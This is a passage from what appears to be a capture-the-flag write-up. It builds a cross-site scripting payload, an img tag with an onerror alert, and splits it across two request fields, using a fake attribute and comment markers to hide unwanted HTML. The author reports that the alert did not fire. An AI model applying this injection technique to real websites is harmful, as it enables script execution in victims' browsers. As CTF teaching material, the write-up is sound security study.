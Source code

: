 ```html
<img x='Unwanted HTML here goes here' src=1 onerror='alert(1)/*Unwanted HTML here goes here*/'>

```
The x is a fake attribute. Here, it is used to make the payload ignore unwanted HTML.

The above payload can be sent in the following way - 

Request 1:
```javascript
data = {
    "body": "foo",
    "tag": "<img x='"
}
```
Request 2:
```javascript
data = {
    "body": "' src=1 onerror='alert(1)/*",
    "tag": "*/'>"
}
```

But unfortunately, still there was not alert popup.. :( 
I have took a look into response i got- 

![](/images/redpwn/res1.png)
